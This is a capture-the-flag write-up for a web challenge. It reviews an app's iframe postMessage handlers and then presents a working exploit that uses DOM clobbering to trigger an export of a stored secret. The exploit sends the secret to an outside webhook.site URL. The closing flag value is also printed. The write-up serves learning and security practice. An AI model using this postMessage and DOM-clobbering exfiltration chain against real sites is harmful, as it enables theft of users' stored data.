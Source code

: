 ```yaml
---
tags: 
references:
---
```

# Nrr
Solves: 
Tags: #posmessage #dom-clobbering 
## Description
> Neon lights make the perfect retro-futuristic aesthetic. Unfortunately, they also burn out quickly and are difficult to replace. Neon Repair Reminder is a simple, easy-to-use, app reminder to keep track of your neon lights and when they need to be replaced. Don't let your neon lights burn you out!
  
  _Caution: Flashing Background Image_
## Overview
It's a page that renders given text.
## Code review
The app's code is simple:
### Backend
- Security headers - the CSP makes XSS difficult.
```python
@app.after_request
def add_security_headers(response):
    response.headers['Content-Security-Policy'] = "default-src 'self' 'sha256-zmo7m+pxoKmTCo7b6iPzuuTrB58B1BO0LXqxnieruZk=' 'sha256-3WkAtsLk8Uq+8ttNpYWR+BjKfMRX1hdGZfHI2RICtaE='; frame-ancestors 'none'; frame-src 'self' blob:"
    response.headers['X-Content-Type-Options'] = 'nosniff'
    return response
```
- The bot can open any given url
```python
if (url.startswith('https://') or url.startswith('http://')): # and verify_pow(pow_chal, session.get('challenge')):
	Q.enqueue(visit, url)
```
And sets the flag in the localstorage
```python
page.goto(APP_URL, timeout=PAGE_TIMEOUT)
expect(page).to_have_title('Neon Repair Reminder')
page.evaluate(
	"""() => {
		localStorage.setItem('reminder', '""" + FLAG + """"');
	}"""
)
sleep(1)

try:
	page.goto(url, timeout=4000)
	sleep(5)
```
### Frontend
- `nrr.js` - creates two iframes:
	- a **valut** that acts like a storage, on postmessage stores or gets a reminder stored in the localstorage
	- a **renderer** that writes some given data into a shadow-dom element. is **sandboxed** with `allow-scripts`
```js
async function createRenderer() {
    const blobData = `renderer_code`;
    return await createIframe(URL.createObjectURL(new Blob([blobData], { type: 'text/html' })), 'reminderRenderer', {
        sandbox: 'allow-scripts'
    });
}

async function createVault() {
    const blobData = `vault_code`;
    return await createIframe(URL.createObjectURL(new Blob([blobData], { type: 'text/html' })), 'reminderVault', {});
}

window.addEventListener('load', async (event) => {
    const tReminder = document.getElementById('reminderInput');
    const bSave = document.getElementById('saveButton');
    const bRenderer = document.getElementById('rendererButton');
    const bExport = document.getElementById('exportButton');

    const iVault = await createVault();
    let iRenderer = await createRenderer();
```

- `valult` - listens for postmessages and does something based on the event type:
	- **append-reminder** -> set `reminder` in the localStorage
	- **get-reminder** -> send `reminder` to the second frame in the parent page
```html
<html>
    <body>
		<script>
		window.addEventListener('message', (event) => {
		    if (event.data.type === 'append-reminder' || event.data.reminder) {
		        localStorage.setItem("reminder", (localStorage.getItem("reminder") || "") + event.data.reminder);
		    }
		    if (event.data.type === 'get-reminder' && event.source === window.parent.frames[1]) {
		        window.parent.frames[1].postMessage({ type: "render", export: event.data.export, reminder: localStorage.getItem("reminder") || "" }, "*");
		    }
		});
		</script>
    </body>
</html>
```

- `renderer` - listens for postmessages and does something based on the event type:
	- **render-reminder** -> gets the reminder from the first frame in the parent page, and inserts it in a shadow DOM element.
	  plus if the source of the postmessage is the first frame, the reminder gets written directly in the document.
```html
<html>
    <body>
        <div id="shadowHost"></div>
		<script>
		let winApp;
		window.addEventListener('message', (event) => {
		    if (event.data.type === 'render-reminder' || event.data.type === 'export-reminder') {
		        winApp = event.source;
		        window.parent.frames[0].postMessage({ type: "get-reminder", export: event.data.type === 'export-reminder'}, "*");
		    }
		    if (event.data.type === "render" && event.source === window.parent.frames[0]) {
		        const host = document.querySelector("#shadowHost");
		        const shadow = host.attachShadow({ mode: "open" });
		        host.shadowRoot.innerHTML = event.data.reminder;
		        if (shadow.childNodes.length === 1 && shadow.childNodes[0].nodeType === Node.TEXT_NODE) {
		            try {
		                document.write(event.data.reminder);
		                if (event.data.export && exportEnabled) {
		                    winApp.postMessage({ type: "export", reminder: event.data.reminder }, "*");
		                }
		            } catch(e) {}
		        } else {
		            host.shadowRoot.innerHTML = '';
		        }
		        host.remove();
		    }
		});
		</script>
    </body>
</html>
```

All the postmessages handler accept messages from any origin.
## Exploitation

- append dom clobbering payload to the reminder
- send a message to the renderer to set winApp to my page -> receive the flag

problem: exportEnabled has to be set -> dom clobbering
prolem for dom clobbering: `shadow.childNodes[0].nodeType === Node.TEXT_NODE` allows only text nodes
finding html tags that satisfy this condition

```js
    const host = document.querySelector("#shadowHost");
    const notshadow = document.querySelector("#notshadow");
    const shadow = host.attachShadow({ mode: "open" });
    let base = "aa"
    let tags = ["html","head","title","base","link","meta","style","body","address","article","aside","footer","header","h1","h2","h3","h4","h5","h6","hgroup","main","nav","section","blockquote","dd","div","dl","dt","figcaption","figure","hr","li","ol","p","pre","ul","a","abbr","b","bdi","bdo","br","cite","code","data","dfn","em","i","kbd","mark","q","rp","rt","ruby","s","samp","small","span","strong","sub","sup","time","u","var","wbr","area","audio","img","map","track","video","embed","iframe","object","param","picture","source","canvas","noscript","script","del","ins","table","caption","col","colgroup","tbody","td","tfoot","th","thead","tr","button","datalist","fieldset","form","input","label","legend","meter","optgroup","option","output","progress","select","textarea","details","dialog","summary","slot","template"]

    for (let tag of tags) {
        shadow.innerHTML = `${base}<${tag} id=test>${base}</${tag}>`;
        if (host.shadowRoot.childNodes.length === 1 && host.shadowRoot.childNodes[0].nodeType === Node.TEXT_NODE) {
            console.log("can write shadow", tag);
            notshadow.innerHTML = `${base}<${tag} id=test>${base}</${tag}>`;
            try {
                if (test) {
                    console.log("can also clobber", tag);
                }
            } catch(e) {}
        }
    }
```
`html` clobbers successfully

Exploit:
```js
    let w = open("https://g9wrqg8opql4s1pv.dyn.acsc.land/");
    setTimeout(() => {
        w.frames[0].postMessage({ type: "append-reminder", reminder: "<html id=exportEnabled></html>"}, '*'); // dom clobber
        w.frames[1].postMessage({ type: "export-reminder" }, '*'); // set win + render the flag
    }, 1000);
    window.addEventListener("message", (e) => {
        if (e.data.type === "export") {
            console.log("export", e.data.reminder);
            location = "https://webhook.site/ad2e555f-63b2-41df-b262-81a89e99c4aa/?c="+encodeURIComponent(e.data.reminder);
        }
    });

```


`dach2025{d0_u_th1nk_ther3s_any_h0pe_for_th3_web_hwu97fwet2fsi934}`